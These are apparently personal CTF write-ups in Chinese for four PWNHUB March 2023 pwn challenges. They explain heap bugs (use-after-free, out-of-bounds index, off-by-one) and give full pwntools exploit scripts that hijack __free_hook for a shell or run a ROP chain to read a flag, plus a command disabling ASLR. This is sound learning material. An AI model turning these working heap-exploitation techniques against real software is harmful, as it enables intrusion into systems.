






# 2023 PWNHUB 三月赛 - ［sh_v1_1］（cp、ln、unsorted bin 与 main_arena 之间的偏移、思路、exp）


## 无关干扰
这段代码反复重复但没有用，可以把所有代码复制到 VS Code 中，然后把这些部分全部删掉
```c
if ( dword_A010 > dword_A014 )
    dword_A018 ^= dword_A020;
  if ( dword_A010 < dword_A020 || dword_A014 > dword_A010 )
    dword_A018 += dword_A020;
  if ( dword_A024 < dword_A020 || dword_A01C > dword_A010 )// ********
  {
    dword_A014 = dword_A020 * dword_A010;
    if ( dword_A010 != dword_A020 * dword_A010 || dword_A01C != dword_A014 || dword_A01C > dword_A024 )
    {
      dword_A018 ^= dword_A020;
      dword_A018 += dword_A020;
      dword_A014 = dword_A020 * dword_A010;
      if ( dword_A010 > dword_A020 * dword_A010 )
        dword_A018 ^= dword_A020;
      if ( dword_A010 < dword_A020 || dword_A014 > dword_A010 )
        dword_A018 += dword_A020;
      if ( dword_A024 < dword_A020 || dword_A01C > dword_A010 )
        dword_A014 = dword_A020 * dword_A010;
    }
  }
  if ( dword_A010 != dword_A014 || dword_A01C != dword_A014 || dword_A01C > dword_A024 )// ********
  {
    dword_A018 ^= dword_A020;
    dword_A018 += dword_A020;
    dword_A014 = dword_A020 * dword_A010;
    if ( dword_A010 > dword_A020 * dword_A010 )
      dword_A018 ^= dword_A020;
    if ( dword_A010 < dword_A020 || dword_A014 > dword_A010 )
      dword_A018 += dword_A020;
    if ( dword_A024 < dword_A020 || dword_A01C > dword_A010 )
      dword_A014 = dword_A020 * dword_A010;
  }
```

## cp

```bash
cp [选项] 源文件 目标文件
```
## ln

```bash
ln [参数] 链接源 链接目标

其中，链接源指的是被链接文件或目录的路径，链接目标指的是所要创建的链接文件的路径。

常用参数： -s 或 --symbolic：创建符号链接（软链接），默认情况下创建的是硬链接。 -f 或 --force：若目标文件或目录已存在，则先删除再创建链接。
```
1. 创建硬链接：假设当前目录下有一个名为 file.txt 的文件，使用以下命令创建一个名为 link.txt 的硬链接：

```bash
ln file.txt link.txt
```

 
2. 通过这条命令，我们创建了一个硬链接 link.txt，它与原文件 file.txt 共享同一个 inode 和数据块。即使我们删除了原文件 file.txt，link.txt 依然存在，仍然可以继续访问其内容。
创建符号链接（软链接）：假设当前目录下有一个名为 file.txt 的文件，使用以下命令创建一个名为 link.txt 的符号链接：

```bash
ln -s file.txt link.txt
```

 
通过这条命令，我们创建了一个符号链接 link.txt，它是一种特殊的文件，里面包含了对原文件 file.txt 路径的引用。如果我们删除了原文件 file.txt，link.txt 将无法访问原文件的内容，因为它只是对某个路径的引用。
- 硬链接与符号链接的区别：
- （1）硬链接与原文件共享同一个 inode 和数据块；在文件系统中它们被视为同一个文件。而符号链接是一种特殊的文件，里面包含了对原文件的路径引用。
- （2）对硬链接和原文件的修改会相互影响；即使通过硬链接也可以修改原文件的内容。符号链接只是指向原文件的一个引用，修改符号链接不会影响原文件。
- （3）如果原文件被删除，硬链接依然可以访问，数据不会丢失，因为硬链接与原文件共享同一个 inode 和数据块。而删除原文件后，符号链接将无法访问原文件的内容。

## unsorted bin 与 main_arena 之间的偏移
malloc_hook 位于 main_arena 上方 0x10 处
main_arena+96=unsorted bin
main_arena-0x10=__malloc_hook
__malloc_hook=unsorted bin-0x10-96
## 思路
存在 UAF 和 double free 漏洞，
1. 先把 tcache bin 填满
2. 再多 free 一个 chunk 进入 unsorted bin，并通过 UAF 泄露 libc 地址
3. 然后确定对应版本，结果是 3.31（根据版本决定使用哪种方法）
6. 然后利用 UAF 修改刚进入 tcache bin 的 chunk 的 fd，改成 free_hook 的地址，
7. 经过两次 malloc 后拿到该 chunk，并修改 free_hook 的值，
8. 最后设置好 /bin/sh，再 free 即可 getshell
## exp

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwn")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")


s=process("./pwn")


def touch(file,content):
    s.sendlineafter(b">>>>",b"touch "+file)
    s.sendline(content)
def ln(src,des):
    s.sendlineafter(b">>>>",b"ln "+src+b" "+des)
    s.sendline("ikun")
def rm(file):
    s.sendlineafter(b">>>>",b"rm "+file)

def cat(file):
    s.sendlineafter(b">>>>",b"cat "+file)

def gedit(file,content):
    s.sendlineafter(b">>>>",b"gedit "+file)
    s.sendline(content)

gdb.attach(s,"b main")

def main():
    touch(b"1",b"123")
    touch(b"2",b"123")
    touch(b"3",b"123")
    touch(b"4",b"123")
    touch(b"5",b"123")
    touch(b"6",b"123")
    touch(b"7",b"123")
    touch(b"8",b"123")
    touch(b"gap",b"123")

    ln(b"7",b"9")
    ln(b"8",b"10")

    rm(b"1")
    rm(b"2")
    rm(b"3")
    rm(b"4")
    rm(b"5")
    rm(b"6")
    rm(b"7")
    rm(b"8")
    cat(b"10")
    s.recvuntil(b">>>>>>>>")
    unsorted_bin_addr=int.from_bytes(s.recvline()[:-1].ljust(8,b"\x00"),"little")
    print("unsorted_bin_addr ",hex(unsorted_bin_addr))
    libc_base=unsorted_bin_addr-96-0x10-libc.sym["__malloc_hook"]
    free_hook=libc.sym["__free_hook"]+libc_base
    gedit(b"9",p64(free_hook))
    touch(b"11",b"/bin/sh")
    system=libc.sym["system"]+libc_base
    touch(b"12",p64(system))
    rm(b"11")

    s.interactive()


if __name__ == "__main__":
    main()

```



# 2023 PWNHUB 三月赛 - [three_edit]


## 保护



## 关闭地址随机化以便调试

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```
否则循环爆破时不会显示错误信息，即使显示了也不详细，这让我很长时间都以为是 payload 的问题。

## GDB 调试

```python
p=gdb.debug("./pwn4","break malloc")
gdb.attach(p,"b main")
pause()
```
或者像下面这样直接用 p 同时进行通信和调试：
```python
p=gdb.debug("./pwn4","break malloc")
```

## 数组越界
注意数组下标的限制：下标值是有符号的，所以可以用负数绕过 `index<=14`

```c
 puts("index?");
  index = input_number();
  if ( index > 14 || !chunk_addr_array[index] )
  {
    puts("illegal subscript");
    exit(0);
  }
```
## _IO_2_1_stdout_ 泄露
通过篡改 _IO_2_1_stdout_ 结构体中的 flags 字段和 _IO_write_base 字段：篡改 flags 字段可以绕过一些检查，篡改 _IO_write_base 字段可以让下一次 put 函数的 write 系统调用打印出 _IO_write_base 字段到 _IO_write_ptr 字段之间的内容，从而泄露 libc 地址。
1.  申请到 stdout 上（最常见的是通过 fastbin 的 fd 和 tcache 的 fd）
2. 让 unsorted bin 的 fd 出现在相应的 fastbin fd 或 tcache fd 中
3. stdout 结构体地址的最后三个十六进制位是固定的，但倒数第四位由于 ASLR 是随机的。由于我们只能写两个字节，没法写一个半字节，所以倒数第四位只能通过爆破来猜。

## 漏洞
只能申请大小在 0x50~0x70 之间的 chunk，chunk 数组下标在 15 以内。
可以利用数组越界写 tcache 中存放的 bin 地址对应的 chunk（相当于 free 后 edit，修改已释放 chunk 的 fd）。同时没有 show 函数，所以需要通过 stdout_leak 泄露 libc。


## 利用
- tcache 上 bin 的起始 chunk 中需要有残留的 libc 地址，这样数组越界时就可以修改它来进行爆破
- 可以先修改已释放 chunk 中残留的堆地址，使得到的 chunk 能把下一个 chunk 的 size 改成大于 fastbin 的大小；这样该 chunk 被 free 时就能进入 [unsorted bin]


1. 申请多个 chunk，free 第一个和最后一个，修改后者（进入 tcache）的 fd，使对应的 chunk 能覆盖原来第二个 chunk 的头部
2. malloc 两次；第二次时把第二个 chunk 头部的 size 改成大于 smallbin 的大小
3. 然后把第三个和第四个 chunk free 进 tcache，把第二个 chunk free 进 unsorted bin
4. 此时 malloc 一个比第三、第四个小的 chunk，unsorted bin 被切割。由于它是 unsorted bin 中唯一的 chunk，切割后剩余部分仍留在 unsorted bin 中，切割时应使其地址恰好与第四个 chunk 的地址重叠
5. 此时利用数组越界修改第四个 chunk 的末尾字节进行爆破，并 malloc 两次，最终得到 stdout 的 chunk
6. 构造相关的 stdout 参数，泄露 libc 基地址
7. 最后再 free 两个 chunk，把第二个 chunk 的 fd 修改为 free_hook 的地址；第一次 malloc 布置 /bin/sh，第二次 malloc 把 free_hook 的值改为 system
8. 最后 free 第一次 malloc 得到的 chunk 即可 getshell

## exp

```python
from pwn import *

context(arch="amd64")
libc = ELF('./libc-2.31.so')
#gdb.attach(p)

def add(index,size,content):
    p.sendlineafter("is:",b"1")
    p.recvuntil(b"index:")
    p.sendline(str(index))
    p.recvuntil(b"size:")
    p.sendline(str(size))
    p.recvuntil(b"content:")
    p.sendline(content) 

def dele(index):
    p.sendlineafter("is:",b"2")
    p.recvuntil(b"index?")
    p.sendline(str(index))

def edit(index,content):
    p.sendlineafter("is:",b"3")
    p.recvuntil(b"index?")
    p.sendline(str(index))
    p.recvuntil(b"new content:")
    p.sendline(content)

def pwn():
    add(0,0x70," ")
    add(1,0x50," ")
    add(2,0x50," ")
    add(3,0x50," ")
    add(4,0x50," ")
    add(5,0x60," ")
    add(6,0x60," ")
    add(7,0x70," ") 
    add(8,0x70," ")
    add(9,0x70," ")
    add(10,0x70," ") #0x460
    add(13,0x70," ") #防止合并
    # 先free 第0个和第8个
    dele(0)
    dele(10)
    edit(-0x3c,b"\xb0")  # 修改第8个的fd为 chunk0+0x10或者更多
    add(10,0x70," ")
    payload=0x60*b"\x11"+p64(0)+p64(0x461)
    add(0,0x70,payload) # 9覆盖到了chunk1 payload修改chunk1的size为0x480

    dele(1)
    dele(6)
    dele(5)
    add(1,0x70,"")
    add(6,0x70,"")
    add(5,0x70,"")

    edit(-0x3d,p16(0x16a0)) #修改残留的libc的低两个字节

    add(11,0x60,"")

    payload=p64(0xfbad1800)+p64(0)*3 +p8(0)
    add(12,0x60,payload) #拿到IO_STDOUT,并修改
    
    # 接受泄漏的libc
    context.log_level='debug' 
    data = p.recvuntil(b'\x7f',timeout=0.5)#防止爆破时候正常返回菜单但没有爆破到stdout上
    print("recv ",data)
    libc.address = u64(data[-6:].ljust(8, b'\x00')) - libc.sym['_IO_2_1_stdin_']

    print("recv ",hex(u64(data[-6:].ljust(8, b'\x00'))))
 
    print("recv ",hex(libc.address))
    
    dele(7)
    dele(8)
    gdb.attach(p) #正确的进程便开始调试查看
    payload=p64(libc.sym['__free_hook']-8)
    edit(-0x3c,payload) #修改fd为hook-8
   
    payload=b"/bin/sh\x00"+p64(libc.sym['system'])
    add(7,0x70,"")
    add(8,0x70,payload) #/bin/sh system地址
    dele(8) #即可getshell
    p.interactive()


while True:
    try:
        p=process("./pwn4")
        print('Try...')
        pwn()
    except Exception  as e:
        print("发生错误:", type(e).__name__)
        print("错误详情:", e)
        
    except:
        p.close()

"""
```


## 结果



# 2023 PWNHUB 三月赛 - [tototo]


##  volatile
int volatile vInt; 当需要读取用 volatile 声明的变量的值时，系统总会重新从其内存位置读取数据，即使紧挨着它前面的指令刚刚从同一位置读取过数据。而读到的数据会立即被保存

##  泄露 _environ 来攻击栈
在 libc 中有一个名为 _environ 的全局变量，它存储着当前进程环境变量的地址，也就是栈上的某个地址

## 漏洞
_free_hook 被禁用。malloc 的大小范围是 0x200 到 0x800，并且索引被限制在 15 以内

存在 show after free 和 edit after free，但编辑只能进行三次 `  change_chunk(chunk_addr_array[index] + 9LL, chunk_size_array[index] - 48LL);`，同时还存在同一个 chunk 被两个不同索引同时使用的情况（两个不同的索引对应同一个 chunk）



## 利用
沙箱禁用了 execve

在 Linux 系统中，system("/bin/sh") 函数调用会引出一系列系统调用。system() 是 C 标准库中用于执行命令字符串的函数——此处用于启动一个 shell。该函数通常执行以下步骤：

1. fork()：system() 首先调用 fork() 创建一个新进程。这是通过 fork() 系统调用完成的，它会复制当前进程，创建一个几乎完全相同的子进程。

2. execve()：在子进程中，system() 接着调用 execve() 或 exec 系列的另一个函数来执行指定的命令。execve() 系统调用会用新程序（这里是 /bin/sh）替换当前进程的镜像、数据和栈。

3. waitpid()：在父进程中，system() 调用 waitpid() 系统调用来等待子进程结束。waitpid() 允许父进程收集子进程的退出状态。

4. exit()：/bin/sh 执行完毕后，子进程通过 exit() 系统调用终止，该调用会向父进程发送信号，表明子进程已经结束。

## malloc 与 calloc
`calloc` 和 `malloc` 都是 C 语言中用于动态内存分配的函数，但它们之间有一些关键差异：

1. **初始化差异**：
   - `calloc` 在分配后会自动把分配区域的每一位都初始化为零，意味着分配到的内存空间是干净的，所有元素的初始值都是 0。
   - `malloc` 只分配内存，不做任何初始化；分配到的内存中的数据是未定义的，可能是之前遗留的随机值（也就是所谓的"垃圾数据"）。

2. **参数与用法**：
   - `calloc` 接受两个参数：第一个是要分配的元素数量，第二个是每个元素的大小（以字节为单位）。这使 `calloc` 非常适合用来分配数组，因为它可以直接根据元素个数和单个元素大小来分配。
   - `malloc` 只接受一个参数，即所需的总内存大小（以字节为单位）。使用 `malloc` 时，需要手动计算所需的总字节数，而且分配后可能还需要额外的初始化步骤（如果需要清零或设置其他特定值）。

## 思路（攻击 _environ）
1. 先分配一个大小为 0x630 的 chunk0 和一个大小为 0x210 的 chunk1，然后释放大小为 0x630 的 chunk0，用 show 泄露 libc 地址
2. 然后连续分配三个大小为 0x210 的 chunk 2、3、4，它们恰好占据了之前 0x630 大小的 chunk0 的位置
3. 然后释放 3 和 1，用 edit after free 修改 chunk0，间接把 chunk3 的 fd 指针改成 _environ，再分配两次 0x210（3 和 1），得到一个从 environ 地址开始的堆块；接着 show chunk1，得到 environ 地址内部的内容，也就是 environ 在栈上的地址
4. 然后再次释放 chunk 3 和 4，用 edit after free 修改 chunk0，间接把 chunk3 的 fd 指针改成栈地址，再分配两次 0x210（3 和 4），得到一个从栈地址开始的堆块，并编辑其内容以实现 ROP 链 orw

## 代码

```c
from pwn import *
p=process("./tototo")
libc = ELF('./libc-2.31.so')
elf=ELF("./tototo")
context(arch="amd64")
#gdb.attach(p)
#pause()
def add(index,size):
    p.sendlineafter(b"is:",b"1")
    p.recvuntil(b"index?\n")
    p.sendline(str(index))
    p.recvuntil(b"size?\n")
    p.sendline(str(size))

def dele(index):
    p.sendlineafter(b"is:",b"2")
    p.recvuntil(b"Which one?\n")
    p.sendline(str(index))

def edit(index,content):
    p.sendlineafter(b"is:",b"3")
    p.recvuntil(b"Which one?\n")
    p.sendline(str(index))
    p.recvuntil(b"new content?\n")
    p.sendline(content)

def show(index):
    p.sendlineafter(b"is:",b"4")
    p.sendlineafter(b"Which one?\n",str(index))


add(0,0x620)
add(1,0x200)

dele(0)
show(0)
libc_add=p.recvuntil(b"\x7f")
libc.address=int.from_bytes(libc_add,byteorder="little")-0x60-0x1ebb80
print("get libc ",hex(libc.address))

add(2,0x200)
add(3,0x200)
add(4,0x200)

dele(1)
dele(3)
payload=b"\x00"*0x1ff+p64(0x211)+p64(libc.sym['_environ'])
edit(0,payload)
add(3,0x200)
add(1,0x200) 
show(1)
stack_address=p.recvuntil(b"\x7f")
stack_address=int.from_bytes(stack_address,byteorder="little")-0x120-0x20
print("stack address",hex(stack_address))
#为libc上的environ地址为开始的堆块
#show显示environ地址内容即environ在栈上的地址
dele(4)
dele(3)

payload=b"\x00"*0x1ff+p64(0x211)+p64(stack_address)
edit(0,payload)

add(3,0x200)
add(4,0x200)

pop_rdi = p64(libc.address + 0x0000000000026b72)  # 使用p64将地址转换为8字节的字节串
pop_rdx = p64(libc.address + 0x000000000011c371)
pop_rsi = p64(libc.address + 0x0000000000027529)
pop_rax = p64(libc.address + 0x000000000004a550)
syscall = p64(libc.address + 0x0000000000066229)

# 注意使用b'\x00'来表示空字节，并使用+b进行字节串的拼接
orw = b'\x00' * 0x17 + pop_rdi + p64(0) + pop_rsi + p64(0) + pop_rdx + p64(0)+p64(0) + pop_rax + p64(2) + syscall  \
     + pop_rdi + p64(3) + pop_rsi + p64(0) + pop_rdx + p64(0x100) + p64(0) + pop_rax + p64(0) + syscall  \
     + pop_rdi + p64(1)  + pop_rax + p64(1)  + syscall  + b'flag.txt\x00' 

file_addr= p64(stack_address + len(orw)-0)
orw = b'\x00' * 0x17 + pop_rdi + file_addr + pop_rsi + p64(0) + pop_rdx + p64(0)+p64(0) + pop_rax + p64(2) + syscall  \
     + pop_rdi + p64(3) + pop_rsi + file_addr + pop_rdx + p64(0x100) + p64(0) + pop_rax + p64(0) + syscall  \
     + pop_rdi + p64(1)  + pop_rax + p64(1)  + syscall  + b'flag.txt\x00' 
# 现在 orw 是一个有效的字节串，可用于ROP攻击载荷


payload=orw
edit(4,payload)
flag=str(p.recvuntil(b"}"))
print(flag)
#为返回地址所在栈上位置开始的堆块，但由于编辑只能从第九个字符开始编辑,所以提前减9
p.interactive()
#0x7ffd53eee778-0x00007ffd53eee898

```



# 2023 PWNHUB 三月赛 - [tt]


##  setcbuf
代码 setvbuf(stdin, 0LL, 2, 0LL); setvbuf(stdout, 0LL, 2, 0LL); setvbuf(stderr, 0LL, 2, 0LL); 用于设置标准输入、标准输出和标准错误流的缓冲模式。

setvbuf 函数的原型如下：

```c
int setvbuf(FILE *stream, char *buffer, int mode, size_t size);
```

 
该函数用于设置 stream 所指向的文件流的缓冲区，以及缓冲模式和缓冲区大小。

- stream：要设置缓冲区的文件流，如 stdin、stdout、stderr 等。
- buffer：缓冲区的地址；设置为 0LL 表示完全不使用缓冲区。
- mode：缓冲模式，可以是以下常量之一：
- _IOFBF：全缓冲
- _IOLBF：行缓冲
- _IONBF：无缓冲
- size：缓冲区的大小。

在给出的代码中，setvbuf(stdin, 0LL, 2, 0LL); 表示禁用 stdin 的缓冲机制，即从 stdin 读取的输入不经过缓冲，而是直接从终端获取。

同样，setvbuf(stdout, 0LL, 2, 0LL); 和 setvbuf(stderr, 0LL, 2, 0LL); 分别用于禁用 stdout 和 stderr 的缓冲机制，使输出不经缓冲立即显示在终端上。
##  泄露栈地址

```c
  name[3] = __readfsqword(0x28u);
  name[0] = 0LL;
  name[1] = 0LL;
  read(0, name, 0x10uLL);
  printf("name: %sage: %d\nhigh: %d\n", (const char *)name, (unsigned int)age, HIDWORD(age));// name泄露栈地址
```
##  转换

```c
*(_QWORD *)(8LL * index + chunk_70_1_addr[0])

```


```c
chunk_70_1_addr[index]
```
## scanf
注意 scanf 的参数是栈顶第一个元素的位置。如果此时输入 `-`，scanf 不会向其第一个参数的位置写入任何数据，但仍会认为输入任务已完成
由于此时栈顶的值是 io_files_jump 的地址，而栈顶元素的值最终会被赋给 printf 打印的参数，所以最终可以泄露 libc 基地址

## 栈地址
栈地址、libc 基地址和堆基地址之间没有固定偏移

## 漏洞点
size 最大为 0x78，且只能 edit 两次；edit 存在 off-by-one
利用 off-by-one 修改 size，从而可以 free 后再 malloc，进而获得对其他 chunk 的 fd 的控制
## 思路
- 利用 scanf 的参数与 printf 最终打印的参数之间的关联，以及 scanf 遇到 - 时的行为，泄露 libc 基地址
- 申请四个 chunk，大小都为 0x18；利用第一个 chunk 的 off-by-one 覆盖第二个 chunk 的 size，使其能覆盖后面两个 chunk
- free 掉这三个 chunk
- malloc 得到这个大 chunk，同时修改后面 chunk 的数据
- 把第三个 chunk 的 fd 修改为 free_hook 的地址（位于 tcache bin 的开头，先进后出）
- malloc 两次，把 _free_hook 的内容修改为 system
- free（第二个 chunk）（第二个 chunk 被 malloc 出来并填入了 /bin/sh）
## exp

```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
p=process("./ttsc")
gdb.attach(p,"b main")
libc=ELF("./libc-2.27.so")

def cmd(ch):
    p.sendlineafter(b"chs:",str(ch).encode())
def add(idx, size, content): 
    cmd(1) 
    p.sendlineafter(b"index?\n", str(idx).encode()) 
    p.sendlineafter(b"size:\n", str(size).encode()) 
    sleep(0.1) 
    p.send(content) 
def free(idx): 
    cmd(2) 
    p.sendlineafter(b"index?\n", str(idx).encode()) 
def edit(idx, content): 
    cmd(3) 
    p.sendlineafter(b"index?\n", str(idx).encode()) 
    p.sendafter(b"content:", content)
if __name__=="__main__":
    p.sendlineafter("what is your name?\n", b" ") 
    p.sendlineafter("age?\n", b"-") 
    p.sendlineafter("high?\n", b"-") 
    p.recvuntil(b"age: ") 
    lo = int(p.recvuntil(b"\n", drop=True), 10) 
    p.recvuntil(b"high: ")
    hi = int(p.recvuntil(b"\n", drop=True), 10) 
    _IO_file_jumps = (hi << 32) | lo 
    libc_base = _IO_file_jumps - libc.sym["_IO_file_jumps"] 
    add(0,0x18,"0")
    add(1,0x18,"0")
    add(2,0x18,"0")
    add(3,0x18,"0")
    edit(0,b"a"*0x18+b"\x71")
    free(1)
    free(2)
    free(3)
    add(1,0x68,b"a"*0x18+p64(0x21)+p64(0)*3+p64(0x21)+p64(libc_base+libc.sym.__free_hook))
    add(2,0x18,b"/bin/sh\x00")
    add(3,0x18,p64(libc_base+libc.sym.system))
    free(2)
    p.interactive()
```

